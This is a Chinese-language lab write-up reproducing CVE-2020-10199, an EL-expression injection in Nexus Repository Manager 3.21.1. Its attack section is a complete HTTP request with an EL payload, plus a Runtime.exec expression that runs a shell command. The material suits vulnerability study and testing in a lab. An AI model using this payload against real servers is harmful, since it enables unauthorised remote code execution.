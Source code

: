 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2020-10199

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

![image-20220226235800485](./images/202202262358582.png)

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![image-20220228160259183](./images/202202281602297.png)

> 发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：
>
> ```
> NX-ANTI-CSRF-TOKEN: <your-csrf-token>
> ```

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令。

![image-20220228160500100](./images/202202281605213.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220228160528457](./images/202202281605519.png)
